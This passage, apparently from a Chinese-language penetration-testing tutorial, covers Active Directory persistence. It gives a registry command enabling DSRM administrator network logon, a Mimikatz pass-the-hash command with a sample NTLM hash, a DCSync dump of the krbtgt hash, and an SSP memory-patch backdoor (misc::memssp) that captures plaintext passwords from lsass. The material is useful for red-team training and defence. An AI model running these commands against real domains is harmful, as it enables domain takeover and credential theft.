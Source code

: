 

我们发现 krbtgt的NTLM和 administrator的 hash成功同步

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516143548.png)

最后修改一下DSRM的登录方式，DSRM默认有三种方式

- 0:默认值，只有当城控制器重启并进入DSRM模式时，才可以使用DSRM管理员账号。
- 1: 只有当本地AD、DS服务停止时，才可以使用DSRM管理员账号登录域控制器。

- 2:在任何情况下，都可以使用DSRM管理员账号登录域控制器。

通过以下命名设置方式改为：2

以管理员方式运行powershell：

```powershell
New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516144000.png)

最后，我们就可以使用本地`administrator` 账号哈希传递攻击域控

```powershell
sekurlsa::pth /domain:main /user:test /ntlm:73265a93b877df146cf06d08ffa673e8
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516144658.png)

最后可以使用Mimikatz的 scysnc功能远程转储krbtgt的NTML Hash

```powershell
lsadump::dcsync /domain:main.com /dc:DC /user:krbtgt
```

## 2. SSP

SSP(**Security Support Provider**)是Windows操作系统安全机制的提供者。简单地说，SSP是个`DLL`文件，主要用来实现Windows操作系统的身份认证功能，例如`NTLM`、`Ketberos`,`Negotiare`.`Seure Channe`(Schannel )、`Digest`、`Credental`( CredSSP )。

SSPI ( **Security Support Provider Interfce**.安全支持提供程序接口)是Windows操作系统在执行认证操作时使用的API接口。可以说，SSPI是SSP的API接口。

LSA( **Local Security Authority**)，用于身份认证，常见进程为 lsass.exe

如果获得了网络中目标机器的System权限，可以使用该方法进行持久化操作。其主要原理是: LSA (`Local Security Authority`)用于身份验证;`lsass.exe `作为Windows的系统进程，用于本地安全和登录策略;在系统启动时，SSP 将被加载到`lsass.exe`进程中。但是，假如攻击者对LSA进行了扩展，自定义了恶意的DLL文件，在系统启动时将其加载到`lsass.exe`进程中，就能够获取`lsass.exe`进程中的明文密码。这样，即使用户更改密码并重新登录，攻击者依然可以获取该账号的新密码。

使用 mimilib SSP

### 2.1通过内存更新留后门（临时）

由于是针对本机的 LSA 进行 Patch，因此本方法只针对在当前机器上登录的用户起作用

```powershell
privilege::debug
misc::memssp
```
